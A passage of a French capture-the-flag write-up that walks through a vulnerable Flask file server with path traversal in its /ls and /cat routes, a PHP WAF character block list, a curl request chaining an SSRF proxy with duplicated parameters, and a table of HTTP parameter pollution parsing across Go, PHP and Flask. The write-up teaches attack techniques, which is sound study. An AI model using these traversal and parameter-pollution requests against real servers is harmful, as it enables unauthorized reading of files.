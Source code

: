 ```python
    if request.args.get("dir"):
        directory = directory + request.args.get("dir")
    return "\n".join(os.listdir(directory))

@app.route('/cat')
def fetch():
    if request.args.get("file"):
        return Response(open(root_directory + request.args.get("file")).read(), mimetype='text/plain')
    return "Missing filename."

if __name__ == "__main__":
    app.run(host="0.0.0.0", threaded=True)
```

C'est assez évident, il y a clairement un Path Traversal dans les routes `/ls` et `/cat`. 

Faisons le test en appelant l'URL `http://filserver.internal/ls?dir=..` depuis le proxy :

```console
pun@ctf:~$ curl 'http://127.0.0.1:45003/?proxydebug=yesplz&token=&token=DEEZNUTS&url=http://fileserver.internal/ls?dir=..'
Attack detected.
```

La requête a été bloquée par la fonction `waf` de l'application PHP en raison de la valeur du paramètre `dir=..`:

```php
function waf($url) {
    $components = parse_url($url);
    if ($components['scheme'] !== 'http' && $components['scheme'] !== 'https')
        die('Ony http/https protocol are allowed.');
    
    parse_str($components['query'], $_get);
    foreach ($_get as $key => $value)
    {   
        foreach ([' ', '"', "'", '#', '--', '..', ';', '$', '<', '>'] as $illegal) {
            if (str_contains($value, $illegal))
                die('Attack detected.');
        }
    }
}
```

## Double HPP FTW !

Revenons sur le tableau de comparaison de HPP en ajoutant Flask :

| Technology                                      | Parsing Result          |outcome (param=)|
| ------------------                              |---------------          |:----------------:|
| Golang net/http - `r.URL.Query().Get("param")`  |First occurrence         |a                 |
| PHP/Apache `$_GET['param']`                     |Last occurrence          |b                 |
| Python Flask                                    |First occurrence         |a                 |
